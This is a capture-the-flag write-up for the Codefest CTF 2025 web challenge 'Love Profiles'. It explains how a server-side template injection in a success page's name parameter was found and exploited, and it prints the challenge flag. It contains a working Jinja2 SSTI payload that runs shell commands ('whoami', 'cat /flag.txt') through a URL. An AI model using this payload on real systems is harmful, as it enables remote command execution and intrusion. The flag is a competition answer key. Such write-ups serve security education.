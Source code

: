 # Codefest CTF 2025

## Love Profiles

> 
> Made my own dating app as I had no matches on existing ones. Only genuine profiles allowed!
> 
> PS: Its under development so you have to wait before you can match and talk!
>
>  Author: 0xkn1gh7
>

Tags: _web_

## Solution
For this challenge, there is no source code given. So we have to search for vulnerabilities ourselfe. The webservice is fairly simple, it provides just a bunch of tiles with some information in them. We cannot access any user profiles or anything, but we can create new profiles:

![](img01.png)

This will forward us to a `success page`, telling us personally that our profile was created and providing a link to the profiles.

```bash
Congratulations test! Your profile has been successfully added!
View profiles here
```

So, the input we can control is via the `new profile` option, so we can see if things are vulnerable for server side template injection.

![](img02.png)

Everything looks fine... But, wait. There was this weird `success page` in between. And going back confirms, they greet us with `Congratulations 25! Your profile has been successfully added!`, so we have a `SSTI` vulnerability here. Better even, we just can control the content with a parameter `name`.

One working payload here was `{{ request.application.__globals__.__builtins__.__import__('os').popen('whoami').read() }}` that allows us to execute commands. With this the flag file can be located quickly in `root` folder and we get the flag.

```
http://codefest-ctf.iitbhu.tech:61477/success?name={{ request.application.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

Flag `CodefestCTF{1_w4n7_l0v3_SjP6f2ANL}`